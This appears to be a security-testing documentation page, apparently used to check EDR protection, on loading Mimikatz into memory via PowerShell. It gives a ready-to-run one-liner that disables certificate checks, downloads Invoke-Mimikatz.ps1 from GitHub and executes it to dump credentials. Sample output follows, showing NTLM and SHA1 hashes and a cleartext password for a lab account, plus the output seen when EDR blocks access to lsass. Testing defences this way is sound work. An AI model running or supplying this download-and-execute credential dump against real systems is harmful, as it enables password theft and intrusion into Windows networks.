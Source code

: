 ```yaml
---
layout: default
title: Mimikatz
---
```


## In-Memory Mimikatz via Powershell 
Mimikatz is a tool used to extract passwords from the lsass.exe process, among other things. Lsass.exe being the process that holds Windows passwords in its memory.  

The following powershell one-liner uses a powershell download cradle to remotely load a mimikatz PS script into memory. Once loaded, mimikatz is invoked.    
This requires an Admin Powershell window  

```
[Net.ServicePointManager]::ServerCertificateValidationCallback = {{$true}};[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]'Tls12,TLS11';IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
   
#### Expected Result
Passwords will be displayed in the output.  

```
  .#####.   mimikatz 2.2.0 (x64) #18362 Oct 30 2019 13:01:25
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 8572893 (00000000:0082cfdd)
Session           : CachedInteractive from 2
User Name         : tesla
Domain            : GARAGE
Logon Server      : DC2016A
Logon Time        : 12/29/2021 2:27:16 PM
SID               : S-1-5-21-3458963130-3505720774-1447263987-1108
        msv :
         [00000003] Primary
         * Username : tesla
         * Domain   : GARAGE
         * NTLM     : b2568aaa902caf959388cfdfee966c10
         * SHA1     : a4679fb759e067cc2417d6a67d787769708e6a6c
         * DPAPI    : a1e632acc64867bb832678ba465c3113
        tspkg :
        wdigest :
         * Username : tesla
         * Domain   : GARAGE
         * Password : (null)
        kerberos :
         * Username : tesla
         * Domain   : GARAGE.AWSM
         * Password : Admin!23
        ssp :   KO
        credman :
```


#### If Blocked
The EDR solution _should_ protect the lsass process, preventing a handle from being obtained.  
```

  .#####.   mimikatz 2.2.0 (x64) #18362 Oct 30 2019 13:01:25
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Modules informations

mimikatz(powershell) # exit
Bye!
```
------------------------------------------------------------------------
